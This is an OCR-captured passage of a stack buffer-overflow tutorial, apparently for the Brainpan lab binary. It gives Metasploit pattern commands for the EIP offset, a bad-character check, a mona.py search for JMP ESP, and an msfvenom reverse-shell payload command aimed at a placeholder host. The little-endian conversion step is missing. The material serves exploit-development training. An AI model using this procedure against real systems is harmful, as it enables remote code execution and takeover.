 ### **Find the EIP Offset**

- Use Metasploit tools:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

- Replace `"A"*600` in your script with the generated pattern.
- Note the EIP value in Immunity (For example: `35724134`), and find its offset:

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134
```

Suppose it returns **524**, then confirm by sending:

```
"A"*524 + "B"*4 + "C"*(600-524-4)
```

### **Check for Bad Characters**

- Generate a byte string of all possible values (`\x01` to `\xff`):

```python
badchars = b"".join([bytes([x]) for x in range(1, 256)])
```

- Inject it after your 524 `A`s and 4-byte padding.
- Use Immunity â†’ **Right-click ESP â†’ Follow in Dump**, and inspect if any bytes are missing or altered.
- Exclude bad chars.

### **Find a JMP ESP Instruction**

- Install and use `mona.py`:

```
!mona modules
```

Look for a module with no memory protections (like DEP, ASLR, etc.).

- Find the `JMP ESP` address in the chosen module:

```
!mona find -s "\xff\xe4" -m brainpan.exe
```

- Suppose the address is `0x311712f3`, convert it to little-endian:


### **Create the Final Exploit Payload**

- Generate shellcode (reverse shell, bind shell, etc.) with `msfvenom`:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=4444 EXITFUNC=thread -b "\x00" -f python
```
